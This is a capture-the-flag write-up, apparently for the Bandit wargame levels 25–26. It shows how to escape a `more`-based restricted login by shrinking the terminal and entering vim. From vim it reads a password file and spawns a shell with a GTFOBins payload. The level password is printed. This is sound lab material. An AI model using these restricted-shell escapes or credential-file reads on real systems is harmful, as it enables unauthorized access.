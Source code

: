 ## Level 25

I've written other's writeup because this challenge is difficult, needs some guessing.

Once you connect to the server, you exit immediately.

The trick is that actually when you enter the server, the server uses `more` to display banner and exit.

In order to be in `more` (not exiting immediately), you have to decrease the terminal size.

Then press v to enter vim mode, then enter `:e /etc/bandit_pass/bandit26` to read the password.

```
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```

Actually there's a hint in /etc/passwd, which is `bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext`, and we can view the source code of showtext.

```bash
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```

Interesting.

# Level 26

We are in vim now (following the previous challenge), we need to break out which is well-known.

You can find payload on gtfobins.

```bash
:set shell=/bin/sh|:shell
$ ls
bandit27-do  text.txt
$ whoami
bandit26
$ ls -al
total 44
drwxr-xr-x  3 root     root      4096 Apr 23 18:04 .
drwxr-xr-x 70 root     root      4096 Apr 23 18:05 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
drwxr-xr-x  2 root     root      4096 Apr 23 18:04 .ssh
-rwsr-x---  1 bandit27 bandit26 14876 Apr 23 18:04 bandit27-do
-rw-r-----  1 bandit26 bandit26   258 Apr 23 18:04 text.txt
```

And we all know the usage of `bandit27-do`.
